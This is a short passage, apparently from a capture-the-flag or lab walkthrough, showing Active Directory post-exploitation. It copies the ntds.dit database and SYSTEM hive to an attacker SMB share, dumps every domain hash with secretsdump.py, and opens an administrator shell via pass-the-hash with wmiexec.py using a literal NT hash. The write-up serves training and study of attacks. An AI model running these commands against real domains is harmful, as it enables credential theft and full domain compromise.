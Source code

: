 ```powershell
cp ntds.dit \\10.10.14.3\smb\NTDS.dit
cp system.hive \\10.10.14.3\smb\system.hive
```

Next, we can extract all the hashes in the domain using Impacketsecretsdump.py.

```powershell
secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```

With the primary domain administrator hash, we can use wmiexec to get a shell (if we use psexec, the Administrator security context will not be preserved, and we will be NT AUTHORITY SYSTEM, which will not allow us to decrypt the file).

```powershell
wmiexec.py -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.10.10.192
```

